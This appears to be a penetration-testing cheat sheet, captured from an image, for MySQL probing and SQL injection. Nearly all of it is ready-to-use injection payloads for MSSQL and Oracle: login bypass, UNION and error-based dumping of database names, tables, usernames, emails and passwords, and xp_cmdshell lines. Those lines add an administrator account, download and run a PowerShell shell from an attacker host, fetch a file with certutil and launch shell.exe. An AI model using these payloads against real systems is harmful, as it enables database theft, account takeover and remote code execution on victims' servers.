 // MYSQL (:3306/tcp) - PROBING & EXPLOITATION
mysql -h <IP> -u <user> -p<PASSWORD> -e 'show databases;'

// SQL INJECTION
# https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
# https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
# https://www.doyler.net/security-not-included/oracle-command-execution-sys-shell
' OR 1=1--
' OR 1=1--
' OR 1=1#
' OR 1=1)#
',null)#
',null)--
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
'EXEC master..xp_cmdshell 'net user /add kali 1234 && net localgroup administrators /add kali';--
'EXEC master..xp_cmdshell "powershell IEX(New-Object Net.webclient).downloadString('http://<ATTACKER-IP>/shell.ps1')"--
'EXEC master..xp_cmdshell "certutil.exe -urlcache -split -f http://<ATTACKER-IP>/maliciousfile"--
'EXEC master..xp_cmdshell "powershell Start-Process c:\ftproot\shell.exe"--
',convert(int,db_name()))--
',convert(int,@@VERSION))--
' AND 0=1 UNION SELECT 1,2--
' AND 0=1 UNION SELECT null,null--
' AND 0=1 UNION SELECT @@VERSION,2--
' AND 0=1 UNION SELECT @@SERVERNAME,2--
' AND 0=1 UNION SELECT @@VERSION,2--
',convert(int,(user_name())))--
',convert(int,(select table_name from information_schema.tables)))--
',convert(int,(SELECT name FROM master..syslogins)))--
',convert(int,(select top 1 table_name from information_schema.tables)))--
' UNION SELECT null,null,null FROM dual--
' UNION SELECT null,null,1 FROM dual--
' UNION SELECT null,2,3 FROM dual--
' UNION SELECT 1,null,3 FROM dual--
' UNION SELECT 1,2,3 FROM dual--
',convert(int,(select cast(concat(db_name(),0x3a,0x3a,table_name,0x0a) as varchar(8000)) from information_schema.tables for xml path(''))))--
',convert(int,(select cast(concat(db_name(),0x3a,0x3a,column_name,0x0a) as varchar(8000)) from information_schema.columns where table_name='users' for xml path(''))))--
',convert(int,(select cast(concat(username,0x3a,0x3a,email,0x0a) as varchar(8000)) from users for xml path(''))))--
' UNION SELECT user,(select banner from v$version where rownum=1),1 FROM dual--
' UNION SELECT table_name,null,1 FROM all_tables--
' UNION SELECT column_name,null,1 FROM all_tab_columns WHERE table_name='WEB_ADMINS'--
' UNION SELECT column_name,'',1 FROM all_tab_columns WHERE table_name='WEB_USERS'--
' UNION SELECT USER_NAME,PASSWORD,1 FROM WEB_USERS--
' UNION SELECT ADMIN_NAME,PASSWORD,1 FROM WEB_ADMINS--
',convert(int,(select cast(concat(0x3a,0x3a,name,0x0a) as varchar(8000)) from master..sysdatabases for xml path(''))))--
',convert(int,(select cast(concat('archive',0x3a,0x3a,table_name,0x0a) as varchar(8000)) from archive.information_schema.tables for xml path(''))))--
',convert(int,(select cast(concat('pmanager',0x3a,0x3a,column_name,0x0a) as varchar(8000)) from archive.information_schema.columns where table_name='pmanager' for xml path(''))))--